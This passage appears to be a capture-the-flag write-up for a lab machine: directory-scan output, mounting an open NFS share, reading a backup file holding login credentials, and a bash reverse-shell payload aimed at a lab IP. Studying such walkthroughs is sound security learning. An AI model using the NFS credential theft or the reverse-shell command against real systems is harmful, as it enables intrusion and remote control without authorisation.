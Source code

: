 ```
/cat (Status: 302)
===============================================================
2021/04/15 13:15:51 Finished
===============================================================
```

As you can see /cat status is 302 - It redirects you to /login

Login page:

![Login jpg](./img/login.jpg)



As you can see in the nmap result section, you may be able to mount [NFS](https://www.datto.com/blog/what-is-nfs-file-share):

```
 ~ showmount -e 10.10.150.214                                       
Export list for 10.10.150.214:
/var/nfs/general *
 ~ sudo mount -t nfs 10.10.150.214:/var/nfs/general/ Desktop/cactoos
 ~ ls Desktop/cactoos 
credentials.bak
 ~ cat Desktop/cactoos/credentials.bak 
paradoxial.test
ShibaPretzel79
```

use the above credentials to login to the site.

This part was hard :), but after some guessing and fuzzing you will find the appropriate payload to get a reverse shell.

payload:

```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```


![reverse shell](./img/reverseShell.jpg)